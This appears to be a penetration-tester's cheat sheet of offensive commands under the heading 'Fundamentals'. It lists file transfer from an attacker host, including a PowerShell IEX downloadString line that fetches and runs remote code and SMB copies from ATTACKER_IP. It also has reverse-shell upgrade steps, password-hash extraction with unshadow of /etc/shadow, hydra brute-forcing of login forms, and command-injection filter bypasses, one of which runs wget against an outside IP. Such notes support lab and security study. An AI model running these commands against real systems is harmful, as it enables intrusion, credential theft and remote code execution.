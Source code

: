 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp <file path> $user@$ip:/<where you want to store it>`&#x20;

#### Powershell

```
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.31.141/ignite.txt', 'ignite.txt')
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1
```

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
net use \\ATTACKER_IP\share /del
```

## Upgrading Reverse Shell&#x20;

```
python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z
# In Kali
stty raw -echo
stty size
fg

#In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
$stty rows <num> columns <cols>

/usr/bin/script -qc /bin/bash /dev/null

SOCAT
```

## Password Cracking

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt
```

## Bypass Character Filters

```
${IFS} - Internal Field Separator, default variable in bash

0xdf;{ping,-c,1,10.10.14.23};#
0xdf;ping -c 1 10.10.14.23;#

#Quotes was also not URL encoded
password=%0abash%09-c%09"wget%09http://10.10.16.48/1.sh"&backup=
%0a : \n
%09 : \t
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}
